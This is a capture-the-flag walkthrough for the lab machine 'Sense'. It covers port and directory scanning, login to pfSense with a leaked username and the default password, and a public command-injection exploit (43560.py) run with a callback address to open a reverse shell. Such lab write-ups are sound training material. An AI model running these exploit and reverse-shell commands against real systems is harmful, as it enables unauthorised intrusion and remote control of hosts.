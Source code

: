 # Sense

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.96 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 07:48 EDT
Nmap scan report for 10.129.85.96
Host is up (0.0088s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

2 ports that are open.

### pfSense Creds + RCE

Visiting the IP address redirects us to port 443 where pfSense is running:

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

We can run a `dirbuster` scan to see what else is on the port because we have no credentials right now. We can include all the common extensions using `-e php,html,txt` to see all possible files on the machine.

```bash
$ dirbuster -u https://10.129.85.96/ -t 20 -l /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e php,txt,html
<TRUNCATED>
File found: /edit.php - 200
File found: /license.php - 200
File found: /system.php - 200
File found: /status.php - 200
File found: /changelog.txt - 200
File found: /exec.php - 200
File found: /graph.php - 200
Dir found: /tree/ - 200
File found: /tree/index.html - 200
File found: /tree/tree.js - 200
File found: /wizard.php - 200
File found: /pkg.php - 200
Dir found: /installer/ - 302
File found: /installer/index.php - 302
File found: /installer/installer.php - 200
File found: /xmlrpc.php - 200
File found: /reboot.php - 200
File found: /interfaces.php - 200
FIle Found: /system-users.txt - 200
```

One of them is called `system-users.txt`. The file contains this:

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

So the username is Rohit and the password is the default password. In this case, the default password for this software is `pfsense`. We can then login and see the version running:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This is an outdated version of pfSense running, and it is vulnerable to an RCE exploit.

```
$ searchsploit pfsense 2.1.3
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injec | php/webapps/43560.py
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We can download this exploit and use it to get a reverse shell.

```bash
python3 43560.py --rhost 10.129.85.96 --lhost 10.10.14.13 --lport 4444 --username rohit --password pfsense
```

<figure><img src="../../../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!&#x20;
